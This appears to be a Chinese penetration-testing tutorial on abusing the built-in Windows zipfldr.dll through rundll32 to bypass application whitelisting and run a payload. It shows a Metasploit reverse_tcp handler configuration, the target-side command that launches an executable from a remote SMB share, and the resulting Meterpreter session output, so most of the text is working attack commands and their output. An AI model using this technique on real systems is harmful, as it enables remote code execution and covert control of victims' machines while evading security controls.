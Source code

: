 ### 11.19 基于白名单zipfldr.dll执行payload（十八）

    zipfldr.dll简介：
    
        

zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件。

说明：zipfldr.dll所在路径已被系统添加PATH环境变量中，因此，zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

Windows 2003 默认位置：

    C:\Windows\System32\zipfldr.dll
    C:\Windows\SysWOW64\zipfldr.dll
    
        

Windows 7 默认位置：

    C:\Windows\System32\zipfldr.dll
    C:\Windows\SysWOW64\zipfldr.dll
    
        

攻击机：-
192.168.1.4 Debian

靶机：-
192.168.1.3 Windows 7-
192.168.1.3 Windows 2003

**配置攻击机msf：**

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port 
    
    Exploit target: 
    
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    
    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101023374419.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

    rundll32.exe zipfldr.dll,RouteTheCall \\192.168.1.119\share\rev_x86_53_exe.exe
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010233815907.png%23pic_center)

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    [*] Sending stage (179779 bytes) to 192.168.1.3
    [*] Meterpreter session 7 opened (192.168.1.4:53 ‐> 192.168.1.3:5245) at
    2019‐01‐21 04:55:44 ‐0500
    
    meterpreter > getuid
    Server username: John‐PC\John
    meterpreter > getpid
    Current pid: 6988
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010233806223.png%23pic_center)

* * *